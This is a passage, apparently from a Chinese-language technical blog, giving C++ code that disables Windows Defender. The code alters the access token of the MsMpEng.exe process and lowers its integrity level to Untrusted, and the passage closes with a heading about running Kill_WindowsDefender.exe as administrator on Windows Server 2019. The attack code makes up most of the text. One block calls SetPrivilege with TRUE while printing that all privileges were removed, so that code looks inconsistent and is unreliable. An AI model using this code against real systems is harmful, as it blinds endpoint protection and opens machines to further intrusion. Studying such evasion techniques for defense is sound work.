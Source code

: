 ```cpp
SetPrivilege(ptoken, SE_DEBUG_NAME, TRUE);
SetPrivilege(ptoken, SE_CHANGE_NOTIFY_NAME, TRUE);
SetPrivilege(ptoken, SE_TCB_NAME, TRUE);
SetPrivilege(ptoken, SE_IMPERSONATE_NAME, TRUE);
SetPrivilege(ptoken, SE_LOAD_DRIVER_NAME, TRUE);
SetPrivilege(ptoken, SE_RESTORE_NAME, TRUE);
SetPrivilege(ptoken, SE_BACKUP_NAME, TRUE);
SetPrivilege(ptoken, SE_SECURITY_NAME, TRUE);
SetPrivilege(ptoken, SE_SYSTEM_ENVIRONMENT_NAME, TRUE);
SetPrivilege(ptoken, SE_INCREASE_QUOTA_NAME, TRUE);
SetPrivilege(ptoken, SE_TAKE_OWNERSHIP_NAME, TRUE);
SetPrivilege(ptoken, SE_INC_BASE_PRIORITY_NAME, TRUE);
SetPrivilege(ptoken, SE_SHUTDOWN_NAME, TRUE);
SetPrivilege(ptoken, SE_ASSIGNPRIMARYTOKEN_NAME, TRUE);
printf("[*] Removed All Privileges\n");
}
```



### 4.设置进程完整级别为Untrusted

通过`SetTokenInformation()`函数将MsMpEng.exe的完整性级别设为Untrusted，这是最低的完整性级别，进一步限制了Windows Defender的能力

```cpp
// 设置令牌完整性级别为 Untrusted
DWORD integrityLevel = SECURITY_MANDATORY_UNTRUSTED_RID;
SID integrityLevelSid{};
integrityLevelSid.Revision = SID_REVISION;
integrityLevelSid.SubAuthorityCount = 1;
integrityLevelSid.IdentifierAuthority.Value[5] = 16;
integrityLevelSid.SubAuthority[0] = integrityLevel;
TOKEN_MANDATORY_LABEL tokenIntegrityLevel = {};
tokenIntegrityLevel.Label.Attributes = SE_GROUP_INTEGRITY;
tokenIntegrityLevel.Label.Sid = &integrityLevelSid;
if (!SetTokenInformation(
    ptoken,
    TokenIntegrityLevel,
    &tokenIntegrityLevel,
    sizeof(TOKEN_MANDATORY_LABEL) + GetLengthSid(&integrityLevelSid)))
{
    printf("SetTokenInformation failed\n");
}
else {
    printf("[*] Token Integrity set to Untrusted\n");
}
```



## 运行测试

在WindowsServer2019上，使用管理员权限执行`Kill_WindowsDefender.exe`
